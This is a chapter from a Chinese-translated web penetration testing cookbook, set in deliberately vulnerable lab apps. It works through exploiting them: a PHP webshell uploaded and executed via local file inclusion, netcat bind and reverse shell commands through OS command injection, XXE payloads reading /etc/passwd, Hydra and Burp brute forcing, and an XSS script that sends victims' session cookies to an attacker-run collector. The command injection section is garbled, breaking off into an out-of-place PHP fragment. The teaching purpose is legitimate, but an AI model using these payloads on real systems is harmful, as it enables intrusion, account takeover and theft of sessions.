# 第六章 利用 -- 低悬的果实

> 作者：Gilberto Najera-Gutierrez

> 译者：[飞龙](https://github.com/)

> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 简介

这章开始我们会开始涉及渗透测试的的利用层面。和漏洞评估的主要不同是，漏洞评估中测试者识别漏洞（多数时间使用自动化扫描器）和提出如何减轻它们的建议。而渗透测试中测试者作为恶意攻击者并尝试利用检测到的漏洞，并得到最后的结果：整个系统的沦陷，内部网络访问，敏感数据泄露，以及其它。同时，要当心不要影响系统的可用性或者为真正的攻击者留下后门。

之前的章节中，我们已经涉及了如何检测 Web 应用中的一些漏洞。这一章中我们打算了解如何利用这些漏洞并使用它们来提取信息和获得应用及系统受限部分的访问权。

## 6.1 恶意使用文件包含和上传

我们在第四章中看到，文件包含漏洞在开发者对生成文件路径的输入校验不当，并使用该路径来包含源代码文件时出现。服务端语言的现代版本，例如 PHP 自 5.2.0 起，将一些特性默认关闭，例如远程文件包含，所以 2011 年起就不大可能找到 RFI 了。

这个秘籍中，我们会上传一些恶意文件，其中之一是 Webshell（可用于在服务器中执行命令的页面），之后使用本地文件包含来执行它。

### 准备

这个秘籍中，我们会使用  vulnerable_vm  中的 DVWA ，并以中等安全级别配置，所以让我们将其配置起来。

1.  访问` http://192.168.56.102/dvwa`。

2.  登录。

3.  将安全级别设置为中。访问`DVWA Security`，在组合框中选择`medium`并点击`Submit`。

我们会上传一些文件给服务器，但是你需要记住它们储存在哪里，以便之后调用。所以，在 DVWA 中访问`Upload`并上传任何 JPG 图像。如果成功了，他会告诉你文件上传到了`../../hackable/uploads/`。现在我们知道了用于储存上传文件的相对路径。这对于秘籍就足够了。

我们也需要准备好我们的文件，所以让我们创建带有一下内容的文本文件：

```php
<? 
system($_GET['cmd']); 
echo '<form method="post" action="../../hackable/uploads/webshell. php"><input type="text" name="cmd"/></form>'; 
?>
```

将其保存为`webshell.php`。我们需要另一个文件，创建`rename.php`并输入下列代码：

```php
<? 
system('mv ../../hackable/uploads/webshell.jpg ../../hackable/uploads/ webshell.php'); 
?>
```

这个文件会接受特殊图像文件（`webshell.jpg`）并将其重命名为`webshell.php`。

### 操作步骤

1.  首先，让我们尝试上传我们的 webshell。在 DVWA 中访问`Upload`之后尝试上传`webshell.php`，像这样：

    
    
    于是，这里对于我们能够上传的东西有个验证。这意味着我们需要上传图标文件，或更精确来说，带有`.jpg`，`.gif`或`.png`的图像文件。这就是为什么我们需要重命名脚本来还原原始文件的`.php`扩展，便于我们执行它。
    
2.  为了避免验证错误，我们需要将我们的 PHP 文件重命名为有效的扩展名。在终端中，我们需要访问 PHP 文件所在目录并创建它们的副本：

    ```
    cp rename.php rename.jpg 
    cp webshell.php webshell.jpg
    ```
    
3.  现在，让我们返回 DVWA 并尝试上传二者：

    

4.  一旦两个 JPG 文件都上传了，我们使用本地文件包含漏洞过来执行`rename.jpg`。访问文件包含部分并利用这个漏洞来包含`../../hackable/uploads/rename.jpg`：

    
    
    我们并没有得到这个文件执行的任何输出，我们需要假设`webshell.jpg `命名为`webshell.php`。
    
5.  如果它能工作，我们应该能够包含`../../hackable/uploads/ webshell.php`，让我们试试：

    
    
6.  在左上角的文本框中，输入`/sbin/ifconfig`并按下回车：

    
    
    并且它能够工作。就像图片中那样，服务器的 IP 是`192.168.56.102`。现在，我们可以在服务器中执行命令，通过将它们键入到文本框中，或者为`cmd`参数设置不同的值。
    
### 工作原理

在上传有效 JPG 文件时，我们所做的第一个测试是为了发现上传文件保存的路径，便于我们可以在`rename.php`中，以及表单的`action`中使用这个路径。

使用重命名脚本有两个重要原因：首先，上传页面只允许 JPG 文件，所以我们的脚本需要这个扩展名，其次，我们需要带参数调用我们的 webshell（要执行的命令），而我们从 Web 服务器调用图片时不能带参数。

PHP 中的`system()`函数是攻击核心，它所做的是，执行系统命令并显示输出。这允许我们将 webshell 文件从`.jpg`重命名为`.php`文件并执行我们指定为 GET 参数的命令。

### 更多

一旦我们上传并执行了服务端代码，我们有很多选择来攻陷服务器，例如，下列代码可以在绑定的 shell 中调用：

```
nc -lp 12345 -e /bin/bash
```

它打开服务器的 TCP 12345 端口并监听连接。连接建立之后，它会将接收的信息作为输入来执行`/bin/bash`，并把输出通过网络发给被连接的主机（攻击者主机）。

也可以让服务器下载一些恶意程序，例如提权利用，执行它来获得更高权限。

## 6.2 利用 OS 命令注入

在上一个秘籍中，我们看到 PHP 的`system()`如何用于在服务器中执行 OS 命令。有时开发者会使用类似于它的指令，或者相同的功能来执行一些任务，有时候他们会使用无效的用户输入作为参数来执行命令。

这个秘籍中，我们会利用命令注入漏洞来提取服务器中的重要信息。

### 操作步骤

1.  登录 DVWA 访问`Command Execution`。

2.  我们会看到` Ping for FREE `表单，试试它吧。Ping `192.168.56.1 `（在主机网络中，我们的 Kali Linux 的 IP）。

    
    
    这个输出看起来像是直接的 ping 命令的输出。这表明服务器使用 OS 命令来执行 ping。所以它可能存在 OS 命令注入。
    
3.  让我们尝试注入一个非常简单的命令，提交下列代码：

    ```
    192.168.56.1;uname -a.
    ```
    
    
    
    我们可以看到`uname`命令的输出就在 ping 的输出之后。这里存在命令注入漏洞。

4.  如果不带IP地址会怎么样呢：`;uname -a:`。

    
    
5.  现在，我们打算获取服务端的反向 shell。首先我们必须确保服务器拥有所需的任何东西。提交下列代码：`;ls /bin/nc*`。

    
    
    所以我们拥有多于一种版本的 Netcat，我们打算使用它来生成连接。`nc`的OpenBSD版本不支持执行连接命令，所以我们使用传统的版本。
    
6.  下一步是监听 Kali 主机的连接。打开终端并执行下列命令：

    ```
    nc -lp 1691 -v
    ```
    
7.  返回浏览器中，提交这个：`;nc.traditional -e /bin/bash 192.168.56.1 1691 &`。

     ) {

    $target = $_REQUEST[ 'ip' ];
    
    // Determine OS and execute the ping command.    
    if (stristr(php_uname('s'), 'Windows NT')) {
        $cmd = shell_exec( 'ping  ' . $target );        
        echo '<pre>'.$cmd.'</pre>';            
        
    } else {             
        $cmd = shell_exec( 'ping  -c 3 ' . $target );        
        echo '<pre>'.$cmd.'</pre>';        
    }    
} 
?>
```

我们可以看到，它直接将用户的输入附加到 ping 命令后面。我们所做的仅仅是添加一个分号，系统的 shell 会将其解释为命令的分隔符，以及下一个我们打算执行的命令。

在成功执行命令之后，下一步就是验证服务器是否拥有 Netcat。它是一个能够建立网络连接的工具，在一些版本中还可以在新连接建立之后执行命令。我们看到了服务器的系统拥有两个不同版本的 Netcat，并执行了我们已知支持所需特性的版本。

之后我们配置攻击系统来监听 TCP 1691 端口连接（也可以是任何其它可用的 TCP 端口），然后我们让服务器连接到我们的机器，通过该端口并在连接建立时执行`/bin/bash`（系统 shell）。所以我们通过连接发送的任何东西都会被服务器接收作为 shell 的输入。

也可以让服务器下载一些恶意程序，例如提权利用，执行它来获得更高权限。

## 6.3 利用 XML 外部实体注入

XML 是主要用于描述文档或数据结构的格式，例如，HTML 是XML 的实现，它定义了页面和它们的关系的结构和格式。

XML 实体类似于定义在 XML 结构中的数据结构，它们中的一些能够从文件系统中读取文件或者甚至是执行命令。

这个秘籍中，我们会利用 XML 外部实体注入漏洞来在服务器中执行代码。

### 准备

建议你开始之前遵循上一个秘籍中的步骤。

### 操作步骤

1.  浏览`http://192.168.56.102/mutillidae/index.php?page=xmlvalidator.php`。

2.  上面写着它是个 XML 校验器。让我们尝试提交测试示例来观察发生什么。在 XML 输入框中，输入` <somexml><message>Hello World</message></ somexml>`，并点击` Validate XML`。

    
    
3.  现在让我们观察它是否正确处理了实体，提交系列代码：

    ```xml
    <!DOCTYPE person [  
        <!ELEMENT person ANY>  
        <!ENTITY person "Mr Bob"> 
    ]> 
    <somexml><message>Hello World &person;</message></somexml>
    ```
    
    
    
    这里，我们仅仅定义了实体并将值`"Mr Bob" `赋给它。解析器在展示结果时解释了实体并替换了它的值。
    
4.  这就是内部实体的使用，让我们尝试外部实体：

    ```xml
    <!DOCTYPE fileEntity [  
        <!ELEMENT fileEntity ANY>  
        <!ENTITY fileEntity SYSTEM "file:///etc/passwd"> 
    ]> 
    <somexml><message>Hello World &fileEntity;</message></somexml>
    ```
    
    
    
    使用这个技巧，我们就可以提取系统中的任何文件，只要它们可以在 Web 服务器的运行环境被用户读取。
    
    我们也可以使用 XEE 来加载页面。在上一个秘籍中，我们已经设法将 webshell 上传到服务器中，让我们试试吧。
    
    ```xml
    <!DOCTYPE fileEntity [ 
        <!ELEMENT fileEntity ANY> 
        <!ENTITY fileEntity SYSTEM "http://192.168.56.102/dvwa/hackable/uploads/ webshell.php?cmd=/sbin/ifconfig"> 
    ]> 
    <somexml><message>Hello World &fileEntity;</message></somexml>
    ```
    
    
    
### 工作原理

XML 拥有叫做实体的特性。XML 实体是与值关联的名称，每次实体在文档中使用的时候，它都会在 XML文件处理时替换为值。使用它以及不同的可用包装器（`file://`来加载系统文件，或者`http://`来加载 URL），我们就可以通过输入校验和XML 解析器的配置，恶意使用没有合理安全措施的实现，并提取敏感数据或者甚至在服务器中执行系统命令。

这个秘籍中，我们使用`file://`包装器来使解析器加载服务器中的任意文件，之后，使用`http://`包装器，我们调用了网页，它碰巧是同一个服务器中的 webshell，并执行了一些命令。

### 更多

这个漏洞也可以用于发起 DoS 攻击，叫做“Billion laughs”，你可以在维基百科中阅读更多信息：` https://en.wikipedia.org/wiki/Billion_laughs `。

PHP 也支持不同的 XML 实体包装器（类似于`file://`和`http://`），如果它在服务器中被开启，也会在不需要上传文件的情况下允许命令执行，它就是`expect://`。你可以在这里找到更多它和其它包装器的信息：`http://www.php.net/manual/en/wrappers.php`。

### 另见

XXE 漏洞如何在世界上最流行的站点上发现的例子，可以在这里查看：`http://www.ubercomp.com/posts/2014-01-16_facebook_remote_code_execution`。

## 6.4 使用 Hydra 爆破密码

Hydra 是网络登录破解器，也就是在线的破解器，这意味着它可以用于通过爆破网络服务来发现登录密码。爆破攻击尝试猜测正确的密码，通过尝试所有可能的字符组合。这种攻击一定能找到答案，但可能要花费数百万年的时间。

虽然对于渗透测试者来说，等待这么长时间不太可行，有时候在大量服务器中测试一小部分用户名/密码组合是非常有效率的。

这个秘籍中，我们会使用 Hydra 来爆破登录页面，在一些已知用户上执行爆破攻击。

### 准备

我们需要拥有用户名列表，在我们浏览 vulnerable_vm 的时候我们在许多应用中看到了有效用户的一些名称。让我们创建文本文件`users. txt`，内容如下：

```
admin 
test 
user 
user1 
john
```

### 操作步骤

1.  我们的第一步是分析登录请求如何发送，以及服务器如何响应。我们使用 Burp Suite 来捕获 DVWA 的登录请求：

    
    
    我们可以看到请求是`/dvwa/login.php`，它拥有三个参数：`username`、`password`和`login`。
    
2.  如果我们停止捕获请求，并检查浏览器中的结果，我们可以看到响应是登录页面的重定向。

    
    
    有效的用户名/密码组合不应该直接重定向到登录页面，而应该是其它页面，例如`index.php`。所以我们假设有效登录会重定向到其它页面，我们会接受`index.php`作为用于分辨是否成功的字符串。Hydra 使用这个字符串来判断是否某个用户名/密码被拒绝了。
    
3.  现在，我们准备好攻击了，在终端中输入下列命令：

    ```
    hydra 192.168.56.102 http-form-post "/dvwa/login.php:username=^USE R^&password=^PASS^&Login=Login:login.php" -L users.txt -e ns -u -t 2 -w 30 -o hydra-result.txt
    ```
    
    
    
    我们使用这个命令只尝试了两个用户名组合：密码等于用户名和密码为空。我们从这个攻击之中得到了两个有效密码，Hydra中标为绿色。
    
### 工作原理

这个秘籍的第一个部分是捕获和分析请求，用于了解请求如何工作。如果我们考虑登录页面的输出，我们会看到消息“登录失败”，并且可以使用这个消息作为 Hydra的输入来充当失败的字符串。但是，通过检查代理的历史，我们可以看到它出现在重定向之后，Hydra只读取第一个响应，所以它并不能用，这也是我们使用`login.php`作为失败字符串的原因。

我们使用了多个参数来调用 Hydra：

+   首先是服务器的 IP 地址。
+   `http-form-post`：这表明 Hydra 会对 HTTP 表单使用 POST 请求。接下来是由冒号分隔的，登录页面的 URL。请求参数和失败字符串由`&`分隔，`^USER^`和`^PASS^`用于表示用户名和密码应该在请求中被放置的位置。
+   `-L users.txt`：这告诉 Hydra 从`users.txt`文件接收用户名称。
+   `-e ns`：Hydra 会尝试空密码并将用户名作为密码。
+   `-u`：Hydra会首先迭代用户名而不是密码。这意味着Hydra首先会对单一的密码尝试所有用户名，之后移动到下一个密码。这在防止账户锁定的时候很有用。
+   `-t 2`：我们不想让登录请求填满服务器，所以我们使用两个线程，这意味着每次两个请求。
+   `-w 30`：设置超时时间，或者等待服务器响应的时间。
+   `-o hydra-result.txt`：将输出保存到文本文件中。当我们拥有几百个可能有效的密码时这会很实用。

### 更多

要注意我们没有使用`-P`选项来使用密码列表，或者`-x`选项来自动生成密码。我们这样做是因为爆破 Web 表单产生很大的网络流量，如果服务器对它没有防护，会产生 DoS 的情况。

不推荐使用大量的密码在生产服务器上执行爆破或字典攻击，因为我们会使服务器崩溃，阻拦有效用户，或者被客户端的保护机制阻拦。

推荐渗透测试者在执行这种攻击时对每个用户尝试四次，来避免被阻拦。例如，我们可以尝试`-e ns`，就像这里做的这样，之后添加`-p 123456`来测试三种可能性，没有密码、密码和用户名一样以及密码为`123456`，这是世界上最常见的密码之一。

## 6.5 使用 Burp Suite 执行登录页面的字典爆破

Burp Suite 的 Intruder 能够对 HTTP 请求的许多部分执行模糊测试和爆破攻击。在执行登录页面上的字典攻击时非常实用。

这个秘籍中，我们会使用 Burp Suite 的 Intruder 和 第二章生成的字典来通过登录获得访问权。

### 准备

这个秘籍需要字典列表。它可以是来自目标语言的简单单词列表，常见密码的列表，或者我们在第二章“使用 John the Ripper 生成字典”中的列表。

### 操作步骤

1.  第一步是设置 Burp Suite 用作浏览器的代理。

2.  浏览` http://192.168.56.102/WackoPicko/admin/index.php`。

3.  我们会看到登录页面，让我们尝试和测试用户名和密码。

4.  现在访问大力的历史，并查看我们刚刚生成的登录的 POST 请求：

    
    
5.  右击它并从菜单中选择` Send to intruder`。

6.  intruder 标签页会高亮，让我们访问它之后访问`Positions `标签页。这里我们会定义请求的哪个部分要用于测试。

7.  点击`Clear §`来清除之前选项的区域。

8.  现在，我们已经选择了什么会用作测试输入。高亮用户名的值（`test`），并点击`Add §`。

9.  对密码值执行相同操作，并点击` Cluster bomb`作为攻击类型：

    
    
0.  下一步就是定义Intruder 用于对我们所选择的输入测试的值。访问`Payloads `标签页。

1.  使用写着`Enter a new item `的文本框和` Add`按钮，使用下列东西来填充列表：

    ```
    user 
    john 
    admin 
    alice 
    bob 
    administrator 
    user
    ```
    
    
    
2.  现在从`Payload Set `框中选择`list 2`。

3.  我们会使用字典来填充这个列表，点击`Load`并选择字典文件。

    

4.  我们现在拥有了两个载荷集合，并准备好攻击登录页面了。在顶部的菜单中，访问`Intruder | Start attack`。

5.  如果我们使用免费版，会出现一个提示框告诉我们一些功能是禁用的。这里，我们可以不使用这些功能，点击`OK`。

6.  新的窗口会弹出，并展示攻击进度。为了分辨成功的登录，我们需要检查响应长度。点击`Length`列来排列结果，通过不同长度来识别响应比较容易。

    

7.  如果我们检查不同长度的结果，我们可以看到他重定向到了管理主页，就像下面这样：

    
    
### 工作原理

Intruder 所做的是，修改请求的特定部分，并使用定义好的载荷替换这些部分的值。载荷可以是这些东西：

+   简单列表：来自文件，由剪贴板传递或者写在文本框中的列表。

+   运行时文件：Intruder 可以在运行时从文件中读取载荷，所以如果文件非常大，它不会完全加载进内存。

+   数字：生成一列顺序或随机的数字，以十进制或十六进制形式。

+   用户名生成器：接受邮件地址列表，从中提取可能的用户。

+   爆破器：接受字符集并使用它来生成指定长度的所有排列。

这些载荷由Intruder以不同形式发送，在`Positions`标签页中由攻击类型指定。攻击类型在载荷标记中的组合和排列方式上有所不同。

+   Sniper：对于载荷的单一集合，它将每个载荷值放在每个标记位置，一次一个。

+   Battering ram：类似Sniper，它使用载荷的单一集合，不同点是它在每个请求中将所有位置设置为相同的值。

+   Pitchfork：使用多个载荷集合，并将每个集合中的一个项目放到每个标记位置中。当我们拥有不能混用的预定义数据时，这会非常有用，例如，测试已知的用户名和密码。

+   Cluster bomb：测试多个载荷，所以每个可能的排列都可以测试到。

对于结果，我们可以看到所有失败尝试都有相同的响应，这里是 811 字节。所以我们假设成功响应的长度应该不同（因为它会重定向到用户主页）。如果碰巧成功和失败请求长度相同，我们也可以检查状态码或者使用搜索框来寻找响应中的特定模式。

### 更多

Kali 包含了非常实用的密码字典和单词列表集合，位于` /usr/ share/wordlists`。一些文件可以在这里找到：

+   `rockyou.txt`：Rockyou.com在 2010 年被攻破，泄露了多于 14 亿的密码，这个列表包含它们。

+   `dnsmap.txt`：包含常用的子域名称，例如内部网络、FTP或者WWW。在我们爆破 DNS 服务器时非常实用。

+   `./dirbuster/*`：`dirbuster `目录包含Web 服务器中常见的文件名称，这些文件可以在使用`DirBuster `或 OWASP ZAP 强制浏览时使用。

+   `./wfuzz/*`：在这个目录中，我们可以找到用于Web 攻击的模糊字符串的大量集合，以及爆破文件。

## 6.6 通过 XSS 获得会话 Cookie

我们已经谈论过了 XSS，它是现在最常见的 Web 攻击之一。XSS 可以用于欺骗用户，通过模仿登录页面来获得身份，或者通过执行客户端命令来收集信息，或者通过获得会话 cookie 以及冒充在攻击者的浏览器中的正常用户来劫持会话。

这个秘籍中，我们会利用持久性 XSS 来获得用户的会话 Cookie，之后使用这个 cookie 来通过移植到另一个浏览器来劫持会话，之后冒充用户来执行操作。

### 准备

对于这个秘籍，我们需要启动 Web 服务器作为我们的 cookie 收集器，所以在我们攻击之前，我们需要启动 Kali 中的 Apache，之后在 root 终端中执行下列命令：

```
service apache2 start
```

在这本书所使用的系统中，Apache 的文档根目录位于`/var/www/html`，创建叫做`savecookie.php`的文件并输入下列代码：

```php
<?php 
$fp = fopen('/tmp/cookie_data.txt', 'a'); 
fwrite($fp, $_GET["cookie"] . "\n"); 
fclose($fp); 
?>
```

这个 PHP 脚本会收集由 XSS 发送的所有 cookie。为了确保它能工作，访问` http://127.0.0.1/savecookie.php?cookie=test`，并且检查`/tmp/cookie_data.txt`的内容：

```
cat /tmp/cookie_data.txt 
```

如果它显式了`test`单词，就能生效。下一步就是了解 Kali 主机在 VirtualBox 主机网络中的地址，执行：

```
ifconfig
```

对于这本书，Kali 主机 的`vboxnet0`接口 IP 为 192.168.56.1 。

### 操作步骤

1.  我们在这个秘籍中会使用两个不同的浏览器。OWASP Mantra 是攻击者的浏览器，Iceweasel 是受害者的浏览器。在攻击者的浏览器中，访问`http://192.168.56.102/peruggia/`。

2.  让我们给页面的图片添加一条评论，点击`Comment on this picture`。

    

3.  在文本框中输入下列代码：

    ```html
    <script> 
        var xmlHttp = new XMLHttpRequest(); 
        xmlHttp.open( "GET", "http://192.168.56.1/savecookie.php?cookie=" + document.cookie, true ); 
        xmlHttp.send( null ); 
    </script>
    ```
    
4.  点击`Post`。

5.  页面会执行我们的脚本，即使我们看不见任何改动。检查Cookie 文件的内容来查看结果。在我们的 Kali 主机上，打开终端并执行：

    ```
    cat /tmp/cookie_data.txt 
    ```
    
    
    
    文件中会出现新的条目。
    
6.  现在，在受害者浏览器中访问` http://192.168.56.102/peruggia/`。

7.  点击`Login`。

8.  输入`admin`作为用户名和密码，并点击`Login`。

9.  让我们再次检查Cookie文件的内容：

    ```
    cat /tmp/cookie_data.txt 
    ```
    
    
    
    最后一个条目由受害者的浏览器中的用户生成。
    
0.  现在在攻击者的浏览器中，确保你没有登录，并打开 Cookies Manager+（在 Mantra 的菜单中，`Tools | Application Auditing | Cookies Manager+`）。

1.  选择 192.168.56.102（vulnerable_vm）的`PHPSESSID ` Cookie。并点击`Edit`。

2.  从` /tmp/cookie_data.txt`复制最后一个Cookie。之后将其粘贴到`Content`字段中，像这样：

